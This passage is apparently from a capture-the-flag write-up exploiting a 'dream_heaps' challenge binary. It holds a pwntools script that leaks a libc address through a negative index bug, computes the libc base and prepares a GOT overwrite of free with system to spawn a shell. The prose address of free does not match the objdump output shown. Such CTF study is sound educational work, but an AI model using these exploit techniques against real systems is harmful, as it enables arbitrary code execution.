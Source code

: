 Also for the function that we will be overwriting the got address of will be `free` at `0x601fb0`. This is because it won't cause any real issues for us, and to get a shell we will just have to free a dream with the contents `/bin/sh`:

```
$ objdump -R dream_heaps | grep free
0000000000602018 R_X86_64_JUMP_SLOT  free@GLIBC_2.2.5
```

### Code

Putting it all together into our exploit, we get this. Also since our exploit relies on calling code from libc, it is dependent on which libc version you're using. If you're libc version is different then the one in the exploit, just swap out the file (check memory mappings in gdb to see which one you're using if this exploit doesn't work):

```
from pwn import *

target = process('./dream_heaps')
libc = ELF('libc-2.27.so') # If you have a different libc file, run it here

gdb.attach(target)

puts = 0x662f0
system = 0x3f630
offset = system - puts

def write(contents, size):
  print target.recvuntil('> ')
  target.sendline('1')
  print target.recvuntil('dream?')
  target.sendline(str(size))
  print target.recvuntil('dream?')
  target.send(contents)

def read(index):
  print target.recvuntil('> ')
  target.sendline('2')
  print target.recvuntil('read?')
  target.sendline(str(index))
  leak = target.recvuntil("What")
  leak = leak.replace("What", "")
  leak = leak.replace("\x0a", "")
  leak = leak + "\x00"*(8 - len(leak))
  leak = u64(leak)
  log.info("Leak is: " + hex(leak))
  return leak

def edit(index, contents):
  print target.recvuntil('> ')
  target.sendline('3')
  print target.recvuntil('change?')
  target.sendline(str(index))
  target.send(contents[:6])

def delete(index):
  print target.recvuntil('> ')
  target.sendline('4')
  print target.recvuntil('delete?')
  target.sendline(str(index))

# Get the libc infoleak via absuing index bug
puts = read(-263021)
libcBase = puts - libc.symbols['puts']
```